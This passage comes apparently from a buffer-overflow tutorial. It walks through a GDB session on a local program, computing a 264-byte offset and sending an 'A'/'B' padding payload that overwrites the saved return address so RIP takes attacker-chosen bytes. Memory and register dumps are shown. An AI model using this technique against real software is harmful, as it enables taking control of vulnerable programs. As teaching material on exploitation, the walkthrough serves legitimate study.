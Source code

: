 ```shell
```
We can see the previous address listed is stored at RSP after return. If we subtract the memory locations stated before we can get
the value 7fffffffded8 - 7fffffffddd0 = 264 in decimal. This allows us to set our payload into something like:
```shell
(gdb) r $(python -c "print 'A'*264 + 'B'*6")
```
If we stop at the breakpoint before leave and observe the memory locations we see this: 
```shell
Breakpoint 3, 0x00005555555551e0 in main ()
(gdb) x/20xg $rsp
0x7fffffffdef8: 0x0000424242424242      0x00007fffffffdfe8
0x7fffffffdf08: 0x0000000200000000      0x0000555555555165
0x7fffffffdf18: 0x00007ffff7e157cf      0x0000000000000000
0x7fffffffdf28: 0x0bc54d296a808388      0x0000555555555080
0x7fffffffdf38: 0x0000000000000000      0x0000000000000000
0x7fffffffdf48: 0x0000000000000000      0x5e90187c77608388
0x7fffffffdf58: 0x5e90084170e68388      0x0000000000000000
0x7fffffffdf68: 0x0000000000000000      0x0000000000000000
0x7fffffffdf78: 0x0000000000000002      0x00007fffffffdfe8
0x7fffffffdf88: 0x00007fffffffe000      0x00007ffff7ffe180
(gdb) 
```
The memory address 0x7fffffffdef8 is important. If we observe the registers we see this address is in the rsp register:
```shell
(gdb) i r
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7eddf33      140737352949555
rdx            0x0                 0
rsi            0x5555555592a0      93824992252576
rdi            0x7ffff7fb0670      140737353811568
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffdef8      0x7fffffffdef8
r8             0x10f               271
r9             0xf                 15
r10            0x7ffff7fef3c0      140737354068928
r11            0x246               582
r12            0x555555555080      93824992235648
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x5555555551e0      0x5555555551e0 <main+123>
eflags         0x246               [ PF ZF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) 
```
If we continue the program to to sigsegv error we can see the rip register contains the 424242 from the previous memory location:
```shell
(gdb) i r
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7eddf33      140737352949555
rdx            0x0                 0
rsi            0x5555555592a0      93824992252576
rdi            0x7ffff7fb0670      140737353811568
```